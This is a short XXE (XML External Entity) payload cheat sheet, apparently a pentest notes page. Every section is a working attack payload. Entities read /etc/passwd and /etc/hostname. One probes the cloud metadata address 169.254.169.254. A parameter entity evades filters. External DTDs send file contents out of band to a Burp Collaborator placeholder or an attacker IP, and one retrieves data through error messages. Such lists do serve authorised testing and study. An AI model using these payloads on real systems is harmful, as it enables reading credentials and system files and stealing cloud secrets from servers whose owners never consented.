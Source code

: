 ```yaml
---
title: "XXE - XML External Entity"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


### CUSTOM ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### EXTERNAL ENTITY
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
### PARAMETER ENTITY
Evading block request containing regular entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
### RETRIEVE DATA WITH EXTERNAL DTD
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### RETRIEVE DATA VIA ERROR
```
----- EXPLOIT SERVER -----

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

----- VICTIM SERVER -----

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
### Out of band
```
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```